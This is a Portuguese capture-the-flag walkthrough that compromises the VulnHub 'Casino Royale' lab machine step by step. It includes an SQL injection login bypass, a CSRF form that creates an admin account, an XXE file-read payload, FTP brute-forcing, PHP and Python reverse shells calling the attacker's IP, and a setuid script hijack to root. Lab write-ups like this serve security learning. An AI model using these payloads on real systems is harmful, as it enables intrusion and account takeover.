

# Casino Royale: 1

Location: [vulnhub.com](vulnhub.com)  
Dificuldade: Intermediária

## Identificação e Enumeração
O primeiro foi encontrar o IP da máquina:
```bash
# nmap -sn 192.168.97.1/24
```


Tendo em mãos o IP(192.168.97.128) podemos fazer um portscan para identificar os serviços que estão rodando:
```bash
# nmap -sV -sT -sC -p- -A 192.168.97.128
```
  
Há um FTP, um SMTP e um HTTP rodando em suas respectivas portas padrões(21, 25 e 80), mas também existe um serviço nomeado como PHP cli server, na porta 8081, ele parece interessante:
  
Mas quando clicamos em Run Data Collect ele retorna a seguinte mensagem:  
**Collection Application put on hold due to lack of funds:::::::::::**  

Na porta 80, temos umas página HTML com um vídeo como background e mais nada, o mesmo acontece em /cards e /kboard que foram encontradas no robots.txt pelo nmap.
  
Mas se colocarmos http://192.168.92.128/index.php ele nos mostra uma página de apostas, isso acontece provavelmente por causa de alguma configuração no arquivo .htaccess:
  
Logo após, eu executei o dirb para encontrar algumas páginas e diretórios:
```bash
$ dirb http://192.168.97.128 /usr/share/dirb/wordlists/big.txt
```
  

## Exploração
O dirb encontrou um diretório chamado /install/, acessando ele vemos que é uma interface para criação de uma tabela, quando tentamos instalar ele retorna um erro dizendo que a tabela já existe:
```
Unable to create the Admin League Settings table in "pokerleague".

Error: Table 'pokermax_admin' already exists
```
O dirb também encontrou o phpmyadmin, mas sem as credenciais é impossível prosseguir por esse caminho, as demais páginas não podem ser acessadas ou não nos retornam nenhuma informação. Voltando para a página principal (index.php) podemos ver que há alguns links no código fonte:
Obs.: Para facilitar, escrevi um pequeno trecho em JS, basta acessar a index.php e no console colocar:
```javascript
document.querySelectorAll('*[href], *[src]').forEach((a) => console.log(a.href || a.src))
```
http://192.168.97.128/includes/style.css  
http://192.168.97.128/index.php  
http://192.168.97.128/pokeradmin/images/ace-spades.gif  

Dessas, a única que ainda não tinhamos conhecimento era a /pokeradmin, acessando ela, nos deparamos com um login:

  
Depois de tentar algumas tentativas sem sucesso, resolvi tentar explorar algumas vulnerabilidades comuns, tendo em vista que o site parece ser antigo, tentei um simples [SQL injection](http://www.securityidiots.com/Web-Pentest/SQL-Injection/bypass-login-using-sql-injection.html), coloando no username e na senha => ' or ''=' e consegui:

  
Depois de logado, temos acesso ao menu administrativo e algumas informações importantes:
* http://192.168.97.128/pokeradmin/configure.php > Aqui temos a senha de admin e uma informação para setar esse endereço para o hostname casino-royale.local  
* http://192.168.97.128/pokeradmin/player-manage.php > Informações sobre os players, aparentemente todos iguais, exceto o user 'valenka':  
  

Ela faz uma referência a url /vip-client-portfolios/?uri=blog, acessando ela entramos em um blog usando SnowFox CMS. O blog tem algumas postagens e uma delas faz referência a entrada de outros usuários
  
Ele diz que devemos mandar um email para a administradores e mencionar algum conhecido e também algum link com serviços. Os conhecidos, imaginei que fossem os outros jogadores que eram mostrados na página admin:
Bond, Le, Infante, Felix, Tomelli e Obanno
Paralelo a essas informções, se procurarmos no google por snowfow cms encontramos uma falha de CSRF que permite adicionar um administrador -> [exploit](https://www.exploit-db.com/exploits/35301)

Na descrição do exploit ele diz o seguinte:
```
Desc: Snowfox CMS suffers from a cross-site request forgery
vulnerabilities. The application allows users to perform certain
actions via HTTP requests without performing any validity checks
to verify the requests. This can be exploited to perform certain
actions with administrative privileges if a logged-in user visits
a malicious web site.
```
Então podemos combinar as informações que temos, enviar um email para a administradora, junto com o link e já adicionarmos um user como admin, lembrando que temos a porta do SMTP aberta:
```bash
$ telnet 192.168.97.128 25
```
  
vi que só estavam registrados os users valenka e le no smtp. monter o meu exploit para mandar minhas credenciais e ficou assim:
```html
<html>
  <body>
    <form action="http://192.168.97.128/vip-client-portfolios/?uri=admin/accounts/create" method="POST">
      <input type="hidden" name="emailAddress" value="teste@teste.com" />
      <input type="hidden" name="verifiedEmail" value="verified" />
      <input type="hidden" name="username" value="rootpwned" />
      <input type="hidden" name="newPassword" value="r00tpwn3d" />
      <input type="hidden" name="confirmPassword" value="r00tpwn3d" />
      <input type="hidden" name="userGroups[]" value="34" />
      <input type="hidden" name="userGroups[]" value="33" />
      <input type="hidden" name="memo" value="CSRFmemo" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="formAction" value="submit" />
      <input type="submit" value="Submit form" />
    </form>
  </body>
</html>
```
depois de feito e colocado na pasta do apache, eu enviei o link por email, como não sabia para qual "conhecido" mandar, enviei pra todos e fiquei monitorando os arquivos de log para saber quando o link foi acessado
```
$ telnet 192.168.97.128 25
```
   

```
$ tail -f logs/access_log
```
   

Depois de acessado, bastava entrar na página de login e usar as credenciais que colocou no exploit, depois de logado, verá que uma nova aba, chamada Admin apareceu
Obs.:você só conseguirá completar o login, se tiver setado o nome no arquivo /etc/hosts  
  

Nessa aba, temos mais informações sobre os usuários já cadastrados(bond, le, valenka e teste). No usuário le, temos uma referência a outra URL:


Acessando essa URL, temos a seguinte página:
  

Mas se olharmos no código-fonte, veremos um trecho de código em PHP comentado, e uma instrução que diz pra user o curl para entrar com comandos ou arquivos xml, ainda nessa página tem outro comentário recomendando a atualização da senha do ftp  


 Entrada de arquivos XML remete a [XXE](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing), então seguindo as instruções do comentário eu criei um arquivo XML com o seguinte conteúdo (na verdade só adaptei rsrs):
 ```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
  <customer>&xxe;</customer>
  <password>mypass</password>
</creds>
 ```

 e usei o curl para fazer o upload do arquivo:
 ```bash
 $ curl -v -d @file.xml http://casino-royale.local/ultra-access-view/main.php
 ```
  
Temos o conteúdo do arquivo, /etc/passwd, eu procurei o conteúdo dee outros arquivos, mas não achei nada interessante. Mas no /etc/passwd temos o usuário do ftp, que é ftpUserULTRA, então podemos fazer um bruteforce e encontrar a senha:
```bash
$ hydra -l ftpUserULTRA -P rockyou.txt ftp://192.168.97.128
```
  
Com o login e a senha podemos acessar os arquivos do ftp e se possível modificar algum deles:
```bash
$ ftp 192.168.97.128
```
  
Logado como ftpUserULTRA eu listei os arquivos e diretórios e não encontrei nada, então tentei fazer o upload de um arquivo php com uma reverse shell. Quando tentei usando a extensão .php deu errado, então mudei a extensão para .php5 e consegui. Conteúdo do arquivo:
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.97.1/1234 0>&1'");
```

Upload via FTP:  


```bash
$ nc -vvnlp 1234
```

Depois de entrar no modo listener e ter feito o upload, mas acessar a página: http://casino-royale.local/ultra-access-view/test.php5 e no terminal teremos:  
  

## PrivEsc

### Para valenka

Estamos dentro do server com o user www-data, agora devemos escalar privilégio até root, se olharmos em /home vemos que existem três usuários (le, valenka e ftpUserULTRA), mas ainda na estrutura do site, se olharmos o conteúdo de includes/config.php podemos ver as credenciais de acesso ao banco de dados:
  
Como é comum que as mesmas senha sejam usadas em vários serviços(má prática) eu tentei me conectar como valenka usando essas credenciais.
```
$ python -c 'import pty;pty.spawn("/bin/bash")'
$ su valenka
Password: 11archives11!
```

### Para Le
E pronto, estava logado como valenka, na pasta pessoal (~) não tinha nada, também não existiam tarefas no cron, então resolvi usar o [LinEnum](https://github.com/rebootuser/LinEnum) para automatizar a busca, e ele encontrou arquivos que pertenciam a outros usuários, mas eu tinha permissão de acesso.  


Entrando nesse diretório vemos:
```
$ ls -lha
ls -lha
total 48K
drwxrwxr-x 2 root le       4.0K Feb 22 19:03 .
drwxr-xr-x 4 root root     4.0K Jan 17 18:17 ..
-rwxrw---- 1 le   www-data  424 Mar  6 21:00 casino-data-collection.py
-rw------- 1 le   le         40 Feb 22 19:02 closer2root.txt
-rw-r--r-- 1 root root       79 Feb 20 14:54 collect.php
-rwxr-xr-x 1 root root      174 Feb 21 21:48 index.html
-rwsr-sr-x 1 root root     8.5K Feb 20 14:26 mi6_detect_test
-rwxrwxr-x 1 le   le         64 Mar  6 21:09 php-web-start.sh
-rwxr-x--- 1 le   le        412 Mar  6 21:11 run.sh
-rwxrwxr-x 1 le   le         71 Feb 20 15:21 user-data.log
```
Esses arquivos fazem parte do serviço que está sendo executado na porta 8081, basicamente a página collect.php executa o arquivo casino-data-collection.py, para ver esse arquivo, precisamos ser www-data ou le, então temos que voltar um passo para prosseguir
```
exit
cat casino-data-collection.py
```
O que esse arquivo faz é ler o conteúdo do arquivo user-data.log e mostrar na tela, por isso ele mostrava aquela mensagem, ela é o que está em user-data.log, mas o user www-data tem permissão de escrita no arquivo casino-data-collection.py, então podemos editar seu conteúdo para que quando o collect.php for executado, ganhemos uma shell com o user 'le'. Em minha máquina local, eu copiei o conteúdo de casino-data-collection.py e adicionei no fim do arquivo o conteúdo a seguir:
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.97.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```
O conteúdo final do arquivo ficou assim
```python
#!/usr/bin/python
# Collect logs and user data to sell for marketing research

file = open("/opt/casino-royale//user-data.log","r")
print file.read()

#ftpl = open("/var/log/vsftpd.log","r")
#print ftpl.read()
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.97.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

depois eu fiz o download desse arquivo no server e substitui o conteúdo dele para casino-data-collection.py
```bash
$ wget http://192.168.97.1/test.py
$cat test.py > /opt/casino-royale/casino-data-collection.py
```

Depois disso era só colocar a porta 4444 em modo de escuta e acessar http://casino-royale.local:8081/collect.php

```
nc -vvnlp 4444
Listening on any address 4444 (krb524)
Connection from 192.168.97.128:34136
le@casino:/opt/casino-royale$
```

Estamos como Le

### Para root
Como estamos como Le, temos acesso aos outros arquivos. O arquivo mi6_detect_test é um ELF que quando exeutado nos mostra uma saída semelhante ao comando ps, se olharmos as strings do arquivo, vemos o seguinte:
```
$ strings mi6_detect_test
(...)
GLIBC_2.2.5
=W	 
AWAVA
AUATL
[]A\A]A^A_
/bin/bash run.sh
;*3$"
GCC: (Debian 6.3.0-18+deb9u1) 6.3.0 20170516
crtstuff.c
(...)
``` 
Ele executa o arquivo run.sh, se olharmos o que o run.sh, veremos que ele executa o netstat e o ps. Mas além disso o mi6_detect_test é executado como root, então se adicionarmos algo no arquivo, podemos ter acesso como root:
```
$ echo "bash -i" >> run.sh
$ ./mi6_detect_test
```
E pronto, estamos como root, agora basta procurar a flag que pela descrição no vulnhub está em /root/flag/flag.sh, executando esse arquivo temos:
```
$ /root/flag/flag.sh
--------------------------------------------
--------------------------------------------
Go here:   http://casino-royale.local:8082
--------------------------------------------
--------------------------------------------
PHP 5.6.38-2+0~20181015120829.6+stretch~1.gbp567807 Development Server started at Thu Mar  7 16:27:52 2019
Listening on http://0.0.0.0:8082
Document root is /root/flag
Press Ctrl-C to quit.
```
Outro serviço rodando, se acessarmos veremos a flag

